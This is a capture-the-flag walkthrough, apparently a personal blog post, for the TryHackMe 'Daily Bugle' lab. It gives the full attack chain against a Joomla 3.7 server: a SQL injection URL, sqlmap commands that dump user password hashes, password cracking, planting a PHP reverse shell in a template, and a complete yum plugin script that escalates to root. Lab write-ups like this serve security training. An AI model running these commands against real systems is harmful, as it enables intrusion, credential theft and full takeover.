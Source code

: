 ```yaml
---
slug: daily-bugle-walkthrough
title: TryHackMe - Daily Bugle - Walkthrough
authors: bw
tags: [learning, daily-bugle, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Daily Bugle][daily-room]. Let’s get started!

# Deploy
Let’s start off with scanning the box! `nmap -sC -sV -oN nmap.txt <machine_ip>`

![d1](/img/thm/dailybugle/d1.png)

It looks like we have a webserver managed by Joomla, with a MySQL DB on the backend. Let’s visit the website!

![d2](/img/thm/dailybugle/d2.webp)

There is our first answer!

# Obtain user and root
From the nmap scan, we can see that it found some pages. However, before we do that, since we know it is **Joomla** let’s scan the site with `joomscan`. This can be found [here][joomscan]. This is a tool that will scan Joomla and tell is info and possible vulnerabilities.

We will run it with the following command: `perl joomscan.pl -u http://<machine_ip>`

![d3](/img/thm/dailybugle/d3.png)

The scan came back with a version number! After looking through the info, there isn’t much else there that we didn’t already know. Let’s search for vulnerabilities in that version.

`searchsploit joomla 3.7`

We see a few options. Let’s go with `42033`. This can be found [here][exdb]. The exploit suggests that the following URL is vulnerable:

`http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

Let’s navigate to that URL and check on our server.

![d4](/img/thm/dailybugle/d4.webp)

If you see on the bottom, we get a SQL error from the DB server. This means it is vulnerable! Let’s use SQLMap to exploit this (syntax can be found in exploit information)!

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Now that we have the various database names, let’s dump out the credentials. We want the `joomla` database.

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

![d5](/img/thm/dailybugle/d5.webp)

We have the hash! Let’s crack it with **John the Ripper**. Put the hash into a file. Then run `john` against a wordlist.

`john hash.txt --wordlist=/home/bw/PenTesting/Tools/SecLists/Passwords/Common-Credentials/rockyou.txt`

We cracked the password!

![d6](/img/thm/dailybugle/d6.png)

Login to Joomla. Let’s see what our permissions are. Navigate to **Users** and you can see that we have **Super User** permissions. Let’s edit a template to give us a shell! Navigate to **Templates > Templates > Protostar Details and Files > index.php**

Now add our reverse shell code (This can be found [here][php]):

![d7](/img/thm/dailybugle/d7.png)

Save the template. Start a `netcat` listener on the port specified: `nc -lnvp 1234`

Now select **Template Preview** and you should see a shell come up! We are the apache user, so we need to find user credentials to ssh in with.

Let’s `ls /home` to find a username. Then navigate to `/var/www/html` so we can get credentials.

Here we find the `configuration.php` file. We can gather credentials here:

![d8](/img/thm/dailybugle/d8.png)

SSH into the box and find the user flag!

![d9](/img/thm/dailybugle/d9.png)

Now we need to do some privilege escalation. We need to utilize `yum` for our privesc exploit. Let’s look at [GTFObins][gtfo]. Search for `yum`. Let’s use the 2nd option.

```bash
TF=$(mktemp -d)

cat >$TF/x<<EOF

[main]

plugins=1

pluginpath=$TF

pluginconfpath=$TF

EOF


cat >$TF/y.conf<<EOF

[main]

enabled=1

EOF


cat >$TF/y.py<<EOF

import os

import yum

from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE requires_api_version='2.1'

def init_hook(conduit):

   
os.execl('/bin/sh','/bin/sh')

EOF
```

`sudo yum -c $TF/x --enableplugin=y`

Now we can run: `whoami`. We are root!!!

Let’s get the flag!

![d10](/img/thm/dailybugle/d10.png)

# Review
Wow! This was definitely a more difficult box than I’ve done so far on THM. It was such a fun challenge and I’m glad that it put up a fight! I learned some new tools like joomscan and utilized the tried and true PHP reverse shell. Overall, this was a great room to challenge yourself!

# References
[TryHackMe][thm] | [Daily Bugle Room][daily-room] | [Joomscan][joomscan] | [Exploit-DB: 42033][exdb] | [PHP Reverse Shell][php] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[daily-room]: https://tryhackme.com/r/room/dailybugle
[joomscan]: https://github.com/OWASP/joomscan
[exdb]: https://www.exploit-db.com/exploits/42033
[php]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io